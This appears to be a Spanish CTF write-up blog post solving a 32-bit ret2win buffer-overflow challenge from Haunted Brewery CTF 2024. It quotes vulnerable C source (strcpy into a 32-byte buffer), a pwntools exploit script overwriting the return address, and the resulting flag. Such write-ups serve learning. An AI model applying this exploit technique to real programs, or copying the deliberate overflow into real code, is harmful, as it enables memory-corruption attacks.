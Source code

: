 ```yaml
---
layout: post
title: Haunted Brewery CTF
comments: true
categories: [Pwn, Writeups, HauntedBreweryCTF]
---
```


Este fin de semana he participado con algunos miembros de mi equipo [Caliphal Hounds](https://ctftime.org/team/225933) en el [Haunted Brewery CTF 2024](https://ctftime.org/ctf/1191/). Donde logramos un puesto 20, dejando buenas sensaciones con el progreso del equipo.

En la competición tuvimos categoría de PWN, donde por desgracia sólo pudimos resolver este primer ejercicio, ya que para progresar debíamos resolver los retos anteriores, y nos atascamos en el segundo ejercicio (una especie de Jail).

![Image]({{ site.baseurl }}/images/posts/haunted-brewery-2024.png)

# Overview

Como viene siendo costumbre en los últimos CTFs, este también es un ret2win, con la particularidad de que la conexión al servicio no se realiza por *netcat*, sino mediante *snicat* (una herramienta similar a netcat pero con soporte para cifrado SSL).

Por lo demás, se nos da un archivo fuente en C:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <time.h>
// gcc -o create-a-flow create-a-flow.c -fno-stack-protector -z execstack -no-pie -m32 

[...]

void unlock_secret() {
    printf("\n👻 y..o..u... s...hou...d...nt.. be ... hee...e.r...e... GET OUT! 👻\n");
    printf("The fermenter starts shaking... !\n");
    printf("You hear a faint sound shimmer across your ears...\n");
    printf("t..h..e.... f...lag... is.: HnH{connect-to-the-sever-and-run-your-exploit}\n "); 

}

void submit_brew(char *brew_name) {
    char buffer[32];

    printf("Sending data ..... : %s\n", brew_name);

    strcpy(buffer, brew_name);  //Vulnerable a BOF, buffer[32] <= brew_name[128]

}

int main() {

    ignore_me_init_buffering(); 
    char brew_name[128];

    const char *goodbye_messages[] = {
        "Thanks for brewing up that awesome suggestion! We'll take it from here.",
        [...]
    };

    int message_count = sizeof(goodbye_messages) / sizeof(goodbye_messages[0]);

    srand(time(NULL));

    int random_goodbye_index = rand() % message_count;


    printf("Welcome to the Haunted Brewery Brew-Curation tank. If we like the name of your brew, we'll feature it in the next batch! \n");
    printf("Enter the name of your cursed brew to have it submitted to our staff: ");

    fgets(brew_name, sizeof(brew_name), stdin); 

    brew_name[strcspn(brew_name, "\n")] = 0;

    printf("\nSubmission in progress...\n");
    submit_brew(brew_name);

    printf("%s\n", goodbye_messages[random_goodbye_index]);
   
    exit(0); 
}
```

Lo que nos interesa es la línea de compilación:

```bash
gcc -o create-a-flow create-a-flow.c -fno-stack-protector -z execstack -no-pie -m32 
```

Aquí vemos que se está compilando con 32 bits, además de que no tendrá protecciones. Por otro lado, en el propio código vemos una función `unlock_secret` que nos imprimirá la flag, pero que no se referencia en ningún lugar del código.

Para lograr llamar a la función deberemos desbordar el buffer de la función `submit_brew` que es vulnerable a *Buffer Overflow* (dado que dipone de 32b pero de le está cargando `brew_name` de 128).

# Explotación

Como siempre, utilizamos *cyclic* para encontrar el offset hasta el RIP (no incluyo esta parte dado que es algo básico que hemos hecho en otros writeups), que en este caso es 44. Con *gdb* obtenemos la dirección de `unlock_secret` y con esa información ya popdemos crear nuestro script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

## ./sc -bind 5000 hackersnhops-create-a-flow.chals.io

win = p32(0x08049253)
padding = 44 * b'A'

io = remote("127.0.0.1", 5000)
#io = pwn.connect(hostAddress, 443, ssl=True, sni=hostAddress)

payload = padding
payload += win

io.sendlineafter(":", payload)

io.interactive()
```

Antes de ejecutarlo, debemos lanzar el siguiente comando:

```bash
./sc -bind 5000 hackersnhops-create-a-flow.chals.io
```

De esta forma, las conexión viajará a través de *snicat*. Y una vez hecho esto deberíamos obtener la flag:

```

👻 y..o..u... s...hou...d...nt.. be ... hee...e.r...e... GET OUT! 👻
The fermenter starts shaking... !
You hear a faint sound shimmer across your ears...
t..h..e.... f...lag... is.: HnH{Gh0st1nThe13uFf3r}
```

Como dije en anteriores posts, está muy bien que haya retos de la categoría en las competiciones, sin embargo, sería interesante ver conceptos nuevos o incorporar algún nivel extra de complejidad.

Sin más, si te ha gustado el post, puedes ver el resto de post que subiré de ésta competición!